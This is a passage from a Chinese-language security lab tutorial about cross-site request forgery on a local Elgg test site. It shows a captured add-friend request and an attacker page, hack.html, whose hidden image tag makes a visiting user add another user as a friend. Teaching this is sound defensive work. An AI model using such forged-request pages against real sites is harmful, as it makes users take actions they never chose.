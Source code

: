 ![图片描述信息](https://dn-anything-about-doc.qbox.me/userid9094labid936time1430186055112?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid9094labid936time1430186078696?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

然后我们需要知道，添加用户时是使用的什么请求；使用 LiveHttpHeader 抓包：

&gt;LiveHttpHeader 使用指南：

&gt;    点击 Firefox 菜单栏中 Tools；

&gt;	点击 LiveHttpHeader

&gt;	勾选 Capture

&gt;	点击 add friend

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid9094labid936time1430186167643?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

分析抓取到的数据包：

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid9094labid936time1430186206593?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

添加 boby 用户的链接,例如：

```
http://www.csrflabelgg.com/action/friends/add?friend=40&amp;__elgg_ts=1429794173&amp;__elgg_token=194fee1a60560fd22f06943948fd9ee1
```

这样我们就可以构造一个页面，让 Alice 用户访问以后，就会添加 boby 为好友。

```
    sudo vim /var/www/CSRF/Attacker/hack.html
```

输入下面代码：

```
	&lt;html&gt;
	&lt;img src=&#34;http://www.csrflabelgg.com/action/friends/add?friend=40&amp;__elgg_ts=1429794173&amp;__elgg_token=194fee1a60560fd22f06943948fd9ee1&#34;&gt;
	&lt;/html&gt;
```
Alice 用户访问前：

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid9094labid936time1430186343735?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)
	
Alice 用户访问：www.csrflabattacker.com/hack.html

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid9094labid936time1430186371620?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

Alice 用户访问后：

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid9094labid936time1430186395717?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)


### lab2 修改用户信息 
